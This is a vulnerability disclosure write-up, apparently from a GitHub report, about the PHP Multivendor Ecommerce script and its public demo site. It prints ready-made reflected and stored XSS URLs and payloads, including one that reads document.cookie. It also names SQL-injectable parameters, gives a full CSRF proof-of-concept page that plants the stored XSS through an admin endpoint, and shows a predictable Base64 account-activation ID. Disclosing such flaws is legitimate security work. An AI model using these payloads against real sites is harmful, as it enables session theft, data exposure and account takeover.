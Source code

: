 ### PHP Multivendor Ecommerce- the lastest version - SQL Injection/Reflect-XSS/Stored-XSS/CSRF/Arbitrary-Binding

Well,  when I pentest the official demo site of PHP Multivendor Ecommerce, I found some vulnerabilities here.


#### XSS:

##### Reflect-XSS

```
http://www.fxwebsolution.com/demo/arthi/multivendor/category.php?chid1=40%27%22%3E123%3Cimg%20src=x%20console.log(/xss/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/xss1.png)

```
http://www.fxwebsolution.com/demo/arthi/multivendor/seller-view.php?usid=60%27%22123%3Cimg%20src=x%20onerror=console.log(/xss2/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/xss2.png)

```
http://www.fxwebsolution.com/demo/arthi/multivendor/shopping-cart.php?cusid=60%27%22123%3Cimg%20src=x%20onerror=console.log(/xss3/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/xss3.png)

````
http://www.fxwebsolution.com/demo/arthi/multivendor/my_wishlist.php?fid=60%27%22123%3Cimg%20src=x%20onerror=console.log(/xss4/)%3E123%3C%27%22
````

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/xss4.png)


##### Stored-XSS 


```
http://www.fxwebsolution.com/demo/arthi/multivendor/admin/sellerupd.php?upd=2&uid=36&id=61
```

POST parameters:

```
------WebKitFormBoundary2wspk6wZ1zP1BEHR
Content-Disposition: form-data; name="companyname"

abc pvt ltd'"><svg/onload=alert(document.cookie)><'"
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/xss3.png)


#### SQL Injection:

##### sqli1
```
http://www.fxwebsolution.com//demo/arthi/multivendor/seller-view.php?usid=60
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/sqli.png)

##### sqli2

```
http://www.fxwebsolution.com/demo/arthi/multivendor/shopping-cart.php?cusid=60
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/sql2.png)


##### sqli3

```
http://www.fxwebsolution.com/demo/arthi/multivendor/my_wishlist.php?fid=60
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/sql3.png)


You can see,  we can obtain the current data user or more sensitive data now!


#### CSRF

We can use csrf attack to cheat the user to change sensitive settings in the user panel, even add stored-xss content into it.

poc:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/www.fxwebsolution.com\/demo\/arthi\/multivendor\/admin\/sellerupd.php?upd=2&uid=36&id=61", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundary2wspk6wZ1zP1BEHR");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"idvalue\"\r\n" + 
          "\r\n" + 
          "61\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"upd\"\r\n" + 
          "\r\n" + 
          "2\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"user_mail\"\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"companyname\"\r\n" + 
          "\r\n" + 
          "abc pvt ltd\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"companyname\"\r\n" + 
          "\r\n" + 
          "abc pvt ltd\'\"\x3e\x3csvg/onload=alert(document.cookie)\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"about\"\r\n" + 
          "\r\n" + 
          "ihguifhugjhufdhgjhd\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"store\"\r\n" + 
          "\r\n" + 
          "avc\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"cphone\"\r\n" + 
          "\r\n" + 
          "2147483647\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"policy\"\r\n" + 
          "\r\n" + 
          "gfgfvhhjj\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"address1\"\r\n" + 
          "\r\n" + 
          "chennai\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"address2\"\r\n" + 
          "\r\n" + 
          "chennai\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"proof\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"_submit\"\r\n" + 
          "\r\n" + 
          "Save\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>

```

This vulnerability does not need evil attacker to login into the user panel.

#### Arbitrary-Binding

I found when we're register the account, we should verify the email to activate the account.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/arbitrary-binding1.png)

But the url which send to the email is predictable. For example, the url the system send to my email is:
```
http://www.fxwebsolution.com/demo/arthi/multivendor/sign-in.php?eqid=NTA=
```
After Base64 decode:
```
http://www.fxwebsolution.com/demo/arthi/multivendor/sign-in.php?eqid=50
```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/arbitrary-binding2.png)

So it's easy to predict or enum the eid to activate our account, then we can bind the account to any email-account, even if it's not exist.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/arbitrary-binding3.png)

In a word, it's a arbitrary-Binding bug here.